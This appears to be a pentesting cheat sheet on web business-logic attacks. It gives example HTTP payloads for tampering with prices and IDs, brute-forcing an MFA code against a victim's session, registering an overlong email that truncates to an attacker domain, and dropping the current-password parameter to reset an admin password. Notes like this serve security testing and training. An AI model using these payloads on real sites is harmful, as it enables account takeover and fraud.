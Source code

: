 ```yaml
---
title: Business Logic Attack
desc: 
tags: [Burp Suite, Business Logic, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change POST Params to Unexpected Values

```sh
productId=-1
productId=a
productId=1&price=-1000
```

<br />

## 2. Exploit Broken Two-Factor

1. **Brute force a MFA Code**

    ```html
    POST /login HTTP/1.1
    Cookie: verify=victim
    ...

    <!-- Brute force digits code -->
    mfa-code=1111
    ```

<br />

## 3. Loop Back with 2,147,483,647

Coming soon.

<br />

## 4. Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## 5. Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```